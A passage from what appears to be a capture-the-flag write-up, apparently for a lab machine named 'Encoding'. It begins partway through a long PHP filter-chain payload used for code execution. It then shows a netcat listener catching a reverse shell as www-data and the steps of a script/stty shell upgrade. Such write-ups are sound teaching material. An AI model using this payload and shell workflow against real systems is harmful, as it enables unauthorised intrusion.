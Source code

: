 ```
nv.864.UTF32|convert.iconv.IBM912.NAPLPS|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.GBK.BIG5|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.865.UTF16|convert.iconv.CP901.ISO6937|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP-AR.UTF16|convert.iconv.8859_4.BIG5HKSCS|convert.iconv.MSCP1361.UTF-32LE|convert.iconv.IBM932.UCS-2BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.iconv.ISO6937.8859_4|convert.iconv.IBM868.UTF-16LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L4.UTF32|convert.iconv.CP1250.UCS-2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.8859_3.UTF16|convert.iconv.863.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF16|convert.iconv.ISO6937.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF32|convert.iconv.L6.UCS-2|convert.iconv.UTF-16LE.T.61-8BIT|convert.iconv.865.UCS-4LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.MAC.UTF16|convert.iconv.L8.UTF16BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSIBM1161.UNICODE|convert.iconv.ISO-IR-156.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.IBM932.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.base64-decode/resource=php://temp

```

I’ll replace the filters in Repeater, and start `nc` listening. On sending, I get a shell as www-data:

```

oxdf@hacky$ nc -lnvp 443
Listening on 0.0.0.0 443
Connection received on 10.10.11.198 35760
bash: cannot set terminal process group (800): Inappropriate ioctl for device
bash: no job control in this shell
www-data@encoding:~/image/actions$

```

I’ll upgrade the shell with the [script / stty trick](https://www.youtube.com/watch?v=DqE6DxqJg8Q):

```

www-data@encoding:~/image/actions$ script /dev/null -c bash
script /dev/null -c bash
Script started, output log file is '/dev/null'.
sh: 0: getcwd() failed: No such file or directory
shell-init: error retrieving current directory: getcwd: cannot access parent directories: No such file or directory
www-data@encoding:$ ^Z
[1]+  Stopped                 nc -lnvp 443
oxdf@hacky$ stty raw -echo; fg
nc -lnvp 443
            reset
reset: unknown terminal type unknown
Terminal type? screen
www-data@encoding:$ 

```
